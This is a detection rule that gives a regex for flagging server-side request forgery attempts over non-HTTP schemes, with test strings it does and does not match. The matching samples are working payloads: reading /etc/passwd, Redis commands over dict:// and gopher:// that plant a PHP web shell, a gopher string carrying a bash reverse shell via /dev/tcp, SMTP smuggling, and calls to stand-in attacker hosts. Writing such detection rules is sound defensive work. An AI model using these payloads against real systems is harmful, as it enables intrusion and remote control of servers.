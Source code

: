 # SQR-000-015: Detect SSRF attempt using non HTTP protocol

## Pattern:
```
^(jar:)?((file|netdoc):\/\/[\\\/]+|(dict|gopher|ldap|sftp|tftp):\/\/.*:[0-9]{1,5})
```

## Maches:

* file:///etc/passwd
* file://\/\/etc/passwd

* dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
* dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
* dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[0])\x3F>"
* dict://127.0.0.1:6379/SAVE

* sftp://evil.com:11111/


* tftp://evil.com:12346/TESTUDPPACKET

* ldap://localhost:11211/%0astats%0aquit
* gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A

* gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body

* gopher://hack3r.site:1337/_SSRF%0ATest!

* gopher://0:25/_%0AHELO victim.com%0AMAIL FROM: <admin@victim.com>%0ARCPT To: <sxcurity@oou.us>


* gopher://localhost:8000/_%00%1A%00%00%0A%


* gopher://127.0.0.1:6379/_config%20set%20dir%20%2Fvar%2Fwww%2Fhtml
* gopher://127.0.0.1:6379/_config%20set%20dbfilename%20reverse.php
* gopher://127.0.0.1:6379/_set%20payload%20%22%3C%3Fphp%20shell_exec%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FREMOTE_IP%2FREMOTE_PORT%200%3E%261%27%29%3B%3F%3E%22
* gopher://127.0.0.1:6379/_save

* netdoc:///etc/passwd


* jar:sftp://127.0.0.1:22/

## no match

* http://file.mega.co.nz/
* https://www.gophercon.com
* http.ftp.example.com


